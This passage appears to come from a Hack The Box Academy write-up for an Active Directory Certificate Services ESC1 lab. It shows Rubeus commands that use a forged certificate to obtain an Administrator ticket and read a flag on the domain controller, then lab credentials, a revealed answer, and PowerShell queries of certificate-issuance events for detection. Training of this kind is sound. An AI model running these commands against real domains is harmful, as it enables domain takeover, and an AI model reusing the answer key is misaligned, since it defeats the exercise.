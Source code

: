 
```powershell
.\Rubeus.exe asktgt /domain:eagle.local /user:Administrator /certificate:cert.pfx /dc:dc1.eagle.local /ptt
```

```powershell
dir \\dc1\c$\scripts
```

```powershell
cat \\dc1\c$\scripts\flag.txt
```

---

### `2. After performing the ESC1 attack, connect to PKI (172.16.18.15) as 'htb-student:HTB_@cademy_stdnt!' and look at the logs. On what date was the very first certificate requested and issued?`

<RevealFlag>{`12/19/2022`}</RevealFlag>

<br />

#### `Enter-PSSession`

```powershell
Enter-PSSession -ComputerName PKI.eagle.local -Authentication Kerberos
```

---

```powershell
$events = Get-WinEvent -FilterHashtable @{Logname='Security'; ID=4887} |
Where-Object {
    $_.Properties[1].Value -eq 'EAGLE\bob'
}
```

```powershell
$events | ForEach-Object {
    [PSCustomObject]@{
        TimeCreated = $_.TimeCreated
        Requester   = $_.Properties[1].Value
        Subject     = $_.Properties[0].Value
        Template    = $_.Properties[5].Value
        SerialNumber = $_.Properties[8].Value
    }
}
```


[PKI]: PS C:\Users\htb-student\Documents> Get-WINEvent -FilterHashtable @{Logname='Security'; ID='4886'}
[PKI]: PS C:\Users\htb-student\Documents> Get-WINEvent -FilterHashtable @{Logname='Security'; ID='4887'}
[pki]: PS C:\Users\htb-student\Documents> $events = Get-WinEvent -FilterHashtable @{Logname='Security'; ID='4886'}
[pki]: PS C:\Users\htb-student\Documents> $events[0] | Format-List -Property *